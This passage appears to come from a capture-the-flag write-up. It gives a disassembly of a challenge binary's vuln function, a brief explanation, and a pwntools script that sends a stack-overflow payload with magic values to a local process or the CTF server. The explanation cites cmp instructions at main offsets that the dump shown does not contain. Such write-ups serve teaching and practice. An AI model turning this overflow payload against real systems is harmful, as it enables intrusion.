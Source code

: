 ```
  0x08048647 <+97>:    call   0x8048430 <puts@plt>  
  0x0804864c <+102>:   add    esp,0x10  
  0x0804864f <+105>:   call   0x804856b <win>  
  0x08048654 <+110>:   jmp    0x804867c <vuln+150>  
  0x08048656 <+112>:   sub    esp,0x4  
  0x08048659 <+115>:   push   DWORD PTR [ebp-0x10]  
  0x0804865c <+118>:   push   DWORD PTR [ebp-0xc]  
  0x0804865f <+121>:   push   0x8048860  
  0x08048664 <+126>:   call   0x8048400 <printf@plt>  
  0x08048669 <+131>:   add    esp,0x10  
  0x0804866c <+134>:   sub    esp,0xc  
  0x0804866f <+137>:   push   0x80488a4  
  0x08048674 <+142>:   call   0x8048430 <puts@plt>  
  0x08048679 <+147>:   add    esp,0x10  
  0x0804867c <+150>:   nop  
  0x0804867d <+151>:   leave  
  0x0804867e <+152>:   ret  
End of assembler dump.
```
We can see the `cmp` instructions at `main+71` and `main+80`, where the values compared are `0xc0ff33` and `0xdecafbad`. By placing these values at the corresponding offsets in little-endian format, we can get the flag.
Exploit.py
```
from pwn import *  
context.log_level = 'critical'  
elf = context.binary = ELF('./forbidden_recipe')  
  
gdbscript = '''  
break *main  
continue  
'''  
  
if args.REMOTE:  
   p = remote('chals1.apoorvctf.xyz', 3002)  
elif args.GDB:  
    p = gdb.debug(elf.path, gdbscript=gdbscript)  
else:  
   p = process(elf.path)     
  
log.info("\\\\n==== start exploit ====\\\\n")  
p.recvuntil(b"Barista: 'I remember you... what will it be this time?'")  
payload = b'aaaabaaacaaadaaaeaaafaaagaaahaaa\xad\xfb\xca\xde3\xff\xc0\x00'  
p.sendline(payload)  
print(p.recv())  
p.interactive()
```



------------------------------------------------------------------------
